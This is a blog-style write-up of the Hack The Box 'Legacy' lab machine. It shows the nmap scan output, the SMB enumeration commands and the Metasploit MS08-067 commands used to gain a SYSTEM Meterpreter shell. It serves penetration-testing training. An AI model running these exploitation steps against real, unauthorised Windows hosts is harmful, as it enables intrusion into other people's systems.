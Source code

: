 ```yaml
---
type: post
title: "Hack the Box Legacy Write-up"
date: 2020-05-12 10:00:00 +1000
---
```

Welcome to the next in this series of write-ups of "OSCP-like" boxes. This time we will be attacking Legacy which is another simple hack the box machine.

## Overview

![Legacy information image](/assets/img/htb-legacy-info.png){: .align-right}

Legacy is very similar to the [previous HTB box called Lame](https://bleepsec.com/2020/05/11/htb-oscp-lame-writeup.html) that we owned with an Samba SMB vulnerability.

Skills tested:

- Port scanning
- Service enumeration
- Vulnerability CVE identification
- Vulnerability exploitation

## Scanning and Enumeration

Starting with the usual `nmap -sC -sV -oA nmap/legacy 10.10.10.4` we only identify ports 139 and 445 as open with 3389 closed. The ever useful NSE scripts have also identified this as a Windows XP machine. My hacker-sense is tingling already because Windows XP is a very old OS with many vulnerabilities!

```text
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m00s, deviation: 2h07m16s, median: 4d22h59m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:bf:c5 (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-05-17T01:56:59+03:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Port 139 and 445 SMB

The goto tools for SMB enumeration are `smbclient -L \\10.10.10.4` and `enum4linux -a 10.10.10.4` however we appear to be running into the same time sync and clock skew issues which are preventing some enumeration. This could also be caused when SMB null session are disabled but this is unlikely on Windows XP.

![Legacy enum4linux output](/assets/img/legacy-enum4linux.png){: .align-center}

All is not lost however, since Windows XP has a very famous and reliable SMB vulnerability called MS08-067. Googling for "Windows XP SMB exploit" takes us to the Rapid7 site and documentation for a Metasploit module.

<https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi>

## Exploitation

Some buffer overflows can be unstable but the good news is that MS08-067 is a very reliable exploit and the Metasploit module is well tested. Following the instructions on the Rapid7 page should make this easy, we can usually leave the targeting as "Automatic" and the exploit will find the correct offset for the Windows XP version and language.

1. `msfconsole`
2. `search ms08-067`
3. `use exploit/windows/smb/ms08_067_netapi`
4. `set RHOSTS 10.10.10.4`
5. `exploit`

![Legacy ms08-067 output](/assets/img/legacy-ms08-067.png){: .align-center}

And we now have a Meterpreter shell as SYSTEM user with full access to the machine. Grab those flags from the user and administrator desktops and mark another box as pwned!
